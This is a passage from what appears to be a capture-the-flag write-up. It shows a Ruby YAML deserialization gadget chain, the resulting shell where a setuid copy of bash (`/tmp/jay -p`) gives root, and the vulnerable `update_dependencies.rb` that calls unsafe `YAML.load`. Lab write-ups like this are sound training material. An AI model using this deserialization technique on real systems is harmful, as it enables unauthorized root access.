 ```bash
        15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
        14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
        13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
        12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
        11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
        10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
         9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
         8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
         7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
         6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
         5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
         4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
         3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
         2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
         1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
henry@precious:/dev/shm$ ls
dependencies.yml
henry@precious:/dev/shm$ /tmp/jay -p
jay-5.1# id
uid=1000(henry) gid=1000(henry) euid=0(root) egid=0(root) groups=0(root),1000(henry)
jay-5.1# 
```

## Explination

There is an interesting file `update_dependencies.rb`\
When we check this we found out is the `manager gems`

```
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```
